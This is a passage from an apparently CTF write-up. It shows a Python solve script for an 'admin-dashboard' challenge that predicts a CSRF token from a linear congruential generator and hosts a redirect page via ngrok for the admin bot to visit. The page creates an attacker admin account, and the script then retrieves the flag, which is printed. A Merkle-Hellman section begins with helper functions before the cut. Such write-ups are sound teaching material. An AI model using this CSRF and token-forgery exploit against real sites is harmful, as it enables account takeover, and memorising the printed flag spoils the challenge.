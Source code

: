 ```py
X = [bytes_to_long(b'admin')]
for i in range(10):
	X.append((a*X[i]+c)%m)
# Calculate the admin's token
print(hex(X[1]))

open("test.html",'w').write(f'<script>document.location="http://localhost/addadmin?username=pwn&password=464b833b05cc1c33402f6bfb8a41e14b&csrf-token={hex(X[1])[2:]}";</script>')
# Host it with python http server and open public url with ngrok
data = {
	"url":"http://a0aa-14-192-209-105.ngrok.io/test.html"
}
r = s.post("http://admin-dashboard.chal.ctf.acsc.asia/report",data=data)
while "Admin will view the URL shortly!" not in r.text:
	r = s.post("http://admin-dashboard.chal.ctf.acsc.asia/report",data=data)

# If the csrf attack success, will create an admin acc pwn
s = requests.Session()
params = {
	"username":"pwn",
	"password":"464b833b05cc1c33402f6bfb8a41e14b"
}
s.get("http://admin-dashboard.chal.ctf.acsc.asia/login",params=params)
# Login and get the flag
r = s.get("http://admin-dashboard.chal.ctf.acsc.asia/")
print(re.findall('ACSC{.*}',r.text)[0])
```

*Many people complain about the server keep down, actually it's my fault because I set resource limit at docker compose file*

## Flag
```
ACSC{C$rF_15_3VerYwh3Re!}
```
---
# Merkle Hellman {#merkle}

```py
#!/usr/bin/env python3
import random
import binascii

def egcd(a, b):
    if a == 0:
        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise Exception('modular inverse does not exist')
    else:
        return x % m

def gcd(a, b): 
    if a == 0: 
        return b 
    return gcd(b % a, a) 

```